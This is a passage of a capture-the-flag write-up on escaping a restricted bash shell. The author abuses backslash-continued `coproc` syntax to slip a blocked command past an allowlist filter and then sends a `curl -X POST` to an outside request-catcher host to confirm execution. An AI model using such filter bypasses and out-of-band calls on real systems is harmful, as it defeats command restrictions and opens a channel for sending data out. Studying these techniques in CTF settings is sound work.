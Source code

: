 ```
done
do
coproc
case
```

Not much to do here, most of them are simply reserved flow control for bash scripts.

I played around with what's given to me - trying to simply write a valid bash script resulted in the same error message:

```bash
~ $ if [[ 1 -eq 1 ]]; then
>   printf "test"
> fi
command blocked: [[ 1 -eq 1 ]]
check completions to see available commands
command blocked: printf "test"
check completions to see available commands
```

I found nothing in the allowed commands that can be placed and accepted in a condition. Furthermore, my hopes that the command blocker ignores commands in an indented scope were extinguished.

I didn't give up on that direction and tried to define a function:

```bash
~ $ function test { printf "test" ; }
```

Running `test` is unfortunately blocked (`command blocked: test`). But hey - it didn't complain about the `printf`. What if I define the function to be one of the allowed commands?

```bash
~ $ function do { printf "test" ; }
~ $ do
bash: syntax error near unexpected token `do'
```

Hmm, no good. This was also a result of using the other reserved words instead.

I continued playing around, focusing on `coproc` which allows running commands in the background. In the end I managed to get *something* to work - using backslashes I made a `corpoc` succeed and print out a newly created process id, indicating that it was successful.

Though, I needed to somehow get an indication of the command itself actually working. I didn't have much idea what could be leaked back to me. My last hail mary was trying to use `curl` to access to a public request catcher.

```
~ $ coproc \
> MYPROC \
> { \
>  curl -X POST -d 'Hello World!' https://googlechallenge.requestcatcher.com/test \
> }
> }
[1] 14
```
